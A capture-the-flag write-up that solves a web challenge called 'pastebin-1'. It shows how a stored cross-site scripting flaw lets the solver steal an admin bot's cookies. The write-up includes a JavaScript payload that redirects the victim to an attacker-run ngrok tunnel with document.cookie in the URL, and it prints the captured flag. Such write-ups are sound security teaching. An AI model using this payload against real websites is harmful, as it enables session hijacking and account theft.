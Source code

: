 Ah, the classic pastebin. Can you get the admin's cookies?
![pastebin-1.mc.ax](http://pastebin-1.mc.ax)
![Admin bot](https://admin-bot.mc.ax/pastebin-1)

### Solution

Let's open the pastebin. It presents itself with an input box and a create paste button. Upon some examination, we can notice that the paste can execute javascript.
Now to get the admin cookies, we can get the admin into sending his cookies to a page that we own. Let's spin up a ngrok tunnel on our machine. This tunnel need not be hosting a service, because we just need to check the logs to see what page was the admin redirected to.
We can open the page in burpsuite to intercept the requests.
In the input box, this payload is entered.
```js
<script>
url = "<YOUR NGROK TUNNEL URL>/"+document.cookie;
window.location.href=url;
</script>
```
Make sure the intercept is on. Burpsuite will intercept the paste ID. Let's copy the paste ID and add "http://pastebin-1.mc.ax" before the paste ID. Putting it into the admin bot, we can see the flag come up in the NGROK logs. 
### Flag:
flag{d1dn7_n33d_70_b3_1n_ru57}
